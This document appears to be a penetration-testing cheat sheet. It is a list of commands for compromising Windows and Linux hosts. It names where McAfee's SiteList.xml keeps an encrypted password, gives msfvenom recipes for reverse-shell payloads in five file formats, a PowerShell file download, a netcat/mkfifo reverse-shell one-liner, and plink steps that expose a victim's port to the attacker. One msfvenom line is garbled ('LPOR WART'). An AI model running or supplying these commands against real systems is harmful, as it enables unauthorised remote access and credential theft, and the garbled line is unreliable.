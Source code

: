    * Most Windows systems they are running McAfee as their endpoint protection. The password is stored encrypted in the SiteList.xml file:
     * %AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml 


## MSFVENOM
### EXE
##### msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPORT=\<port> -f exe > shell.exe

### JSP
##### msfvenom -p java/jsp_shell_reverse_tcp LHOST=\<ip> LPORT=\<port> -f raw > shell.jsp

### ASP
##### msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPORT=\<port> -f asp > shell.asp

### ASPX
##### msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPOR WART=\<port> -f aspx > shell.aspx

### WAR
##### msfvenom -p java/jsp_shell_reverse_tcp LHOST=\<ip> LPORT=\<port> -f war > shell.war



## Download files
### With Powershell

powershell -command "& { iwr http://192.168.199.1/win.txt -OutFile win.txt }"


## Reverse shell with nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f


plink

→ What is plink:

Plink is a command-line connection tool similar to UNIX ssh. It is mostly used for automated operations, such as making CVS access a repository on a remote server. Plink is a command line application.It makes simple interactive connection to a remote server. This means that you cannot just double-click on its icon to run it and instead you have to bring up a console window. 

Example to expose ports: 445 (samba)

How to expose a port on your local machine:

[local_machine]: systemctl start ssh

→ Upload plink.exe on remote machine as binary (mode)

[remote_machine]: plink.exe -l [username] -pw [password] -R [port]:127.0.0.1:[port] [ip]

→ After that, the victim’s port will be exposed on your local machine (127.0.0.1)

